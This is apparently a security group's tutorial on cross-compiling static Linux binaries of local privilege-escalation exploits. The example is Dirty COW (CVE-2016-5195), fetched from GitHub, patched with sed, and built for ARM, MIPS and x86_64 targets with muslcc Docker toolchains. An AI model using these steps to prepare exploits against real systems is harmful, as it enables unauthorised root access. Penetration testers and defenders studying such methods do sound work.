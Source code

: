 
## TL;DR: Use ```docker run muslcc/x86_64:armv6-linux-musleabi``` and ```gcc -static```.


It is not always possible to compile an exploit on the target system. Here at THC we use various methods to cross-compile static Linux binaries. I'll explain some of our methods.

Let's compile the exploit for [CVE-2016-5195](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-5195) to run on Raspberry PI (armv6l) while our workstation is x86_64.

The vulnerability is a local privilege escalation in Linux Kernel <4.8.3.

## Using muslcc toolchain

The fine folks at https://musl.cc/ maintain cross-compiler toolchains for many different architectures. These toolschains can be used to generate a (static) Linux binary that will execute on a different architecture (armv6l) than the architecture that was used to compile the exploit (x86_64):

There is a bug in the exploit. Let's download and fix this first:
```shell
mkdir thc; cd thc
wget https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c
sed  -i 'sX.*= copy_file.*Xint ret = system("cp /etc/passwd\ /tmp/passwd.bak");X' dirty.c
```

And now compile dirt.c for armv6:
```shell
docker run --rm -v $(pwd):/src -w /src muslcc/x86_64:armv6-linux-musleabi sh -c "gcc -pthread dirty.c -o dirty-exp -lcrypt -static"
```

The `./dirty` binary will execute on the Raspberry PI with ARM6 architecture.

## Cross Compiling for 5 architectures

Let's script this and compile for 5 different architectures:
```shell
for arch in aarch64-linux-musl armv6-linux-musleabi mips-linux-muslsf mips64-linux-musl x86_64-linux-musl; do
   docker run --rm -v $(pwd):/src -w /src muslcc/x86_64:${arch} sh -c "gcc -pthread dirty.c -o dirty-exp.${arch} -lcrypt -static"
done
```

```console
$ ls -al dirty-exp.*
-rwxr-xr-x 1 0 0 170664 Aug 30 14:06 dirty-exp.aarch64-linux-musl
-rwxr-xr-x 1 0 0 119280 Aug 30 14:06 dirty-exp.armv6-linux-musleabi
-rwxr-xr-x 1 0 0 210384 Aug 30 14:06 dirty-exp.mips64-linux-musl
-rwxr-xr-x 1 0 0 210692 Aug 30 14:06 dirty-exp.mips-linux-muslsf
-rwxr-xr-x 1 0 0  88312 Aug 30 14:06 dirty-exp.x86_64-linux-musl
```

All binaries are static binaries. They run on any Linux system regardless of the distribution or Linux flavour (as long as the architecture matches).

## Statically compiling with other libraries

Some exploits need additional libraries to compile or have more complex compilation instructions. Let's pick the OpenSSL library as a worst case scenario: A huge and complex library. We use the dirt.c source again even that it does not depend on or need OpenSSL.

Let's get a docker shell and cross-compile for ARM6:

```shell
docker run --rm -v $(pwd):/src -w /src -it muslcc/x86_64:armv6-linux-musleabi
apk update \
&& apk add --no-cache bash perl make curl \
&& rm -rf /var/cache/apk/* \
&& curl https://www.openssl.org/source/openssl-1.1.1k.tar.gz | tar -xz \
&& mkdir usr \
&& cd openssl-1.1.1k \
&& ./Configure --prefix=/src/usr no-tests no-dso no-threads no-shared linux-generic64 \
&& make install_sw \
&& cd .. \
&& gcc -I/src/usr/include -L/src/usr/lib -pthread dirty.c -o dirty-exp -lcrypt -lcrypto -lssl -static
```

## Exploits load .so files

There is an exception to the above when exploit can not be compiled statically.

For example exploits that compile .so dynamic shared object files that are loaded by the vulnerable program (and by definition can not be static). It is not possible to cross-compile them either as they heavily depend on the ABI of the target system.

Or exploits that during their exploitation phase compile other binaries.

A good example is (CVE-2021-4034)[https://github.com/arthepsy/CVE-2021-4034/] also known as polkit/pkexec exploit. It requires the vulnerable program to load a .so file _and_ it compiles more source during runtime.


        

